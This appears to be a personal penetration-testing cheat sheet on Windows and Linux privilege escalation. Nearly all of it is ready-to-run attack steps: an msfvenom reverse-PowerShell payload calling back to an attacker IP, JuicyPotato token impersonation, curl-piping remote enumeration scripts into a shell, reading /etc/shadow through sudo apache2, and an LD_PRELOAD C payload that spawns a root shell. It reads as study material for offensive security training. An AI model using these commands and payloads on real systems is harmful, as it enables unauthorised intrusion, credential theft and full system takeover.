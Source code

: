 ### Exploit Installed Application 
1.  `tasklist /v` Manually Enumerate all the task list or automatically by the following programs
2.   `.\seatbelt.exe NonstandardProcesses `
3.  ` .\winPEASany.exe quiet procesinfo`  
4.  If you find an interesting process, identify the ***version*** by running `<SERVICENAME> /?` or `<SERVICENAME> -h' or text files and config.
5.  Go to Exploit DB https://www.exploit-db.com/?type=local&platform=windows  and see if there are any.

### Token Impersonation 
1. Windows 7
2. `whoami /priv` to see `SeImpersonatePrivilege` is allowed
3. Transfer Juicy Potato.exe 
4. `msfvenom -p cmd/windows/reverse_powershell lhost=192.168.119.159 lport=9999 > myshell.bat ` create a revershell bat 
5. Transfer the bat
6. `JuciyPotato.exe -t * -p myshell.bat -l 9999` (port has to be same as reverseshell)

## File Transfer to Linux 
0.`python3 -c 'import pty; pty.spawn("/bin/bash")'` `export TERM=xterm-256color` Stabalize shell \
1.`python3 -m http.server 8080` `or( 80)`
2.`cd /tmp`  `cd /dev/shm `move directory where we have write access.
4.`wget http://$myIP:8080/linEum.sh .` \
7.Or manually download the latest linpeas https://github.com/carlospolop/PEASS-ng/releases/tag/20221225



# Privilege Escalation for Linux
0. `curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh` which would execute script (run from cd /tmp)
1. `chmod +x linpeas.sh` and `./linpeas.sh`
2. `wget "https://github.com/diego-treitos/linux-smart-enumeration/releases/latest/download/lse.sh" -O lse.sh;chmod 700 lse.sh (use lin enum smart)`
3. or `curl "https://github.com/diego-treitos/linux-smart-enumeration/releases/latest/download/lse.sh" -Lo lse.sh;chmod 700 lse.sh`
4. For linSmart start with `./lse.sh -i` then `./lse.sh -i -l 1` and `./lse.sh -i -l 2` for more verbosity.  

### Sudo Exploit
1. Sudo lets users run the program with root
2. `sudo -l` Check what current user is allowed to run
3.  If we have all access, `sudo su` , `sudo -s` , `sudo -i`, `sudo /bin/bash`,  `sudo passwd` to switch to root user 
4.  After typing `sudo -l` visit https://gtfobins.github.io/ to see if we can escalte our privileges (shell escape)
5.  If shell escape is not possible, we can still esclate our privileges 
6.  e.g if we have apache2 as sudo privilege we can extract the hash file and crack the password.
7.  ` sudo apache2 -f /etc/shadow` 
8.  If  `env_keep+=LD_PRELOAD` ,`env_reset `is shown after `sudo -l`  create a preload.c payload in the /tmp folder
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setresuid(0,0,0);
system("/bin/bash -p");
}

```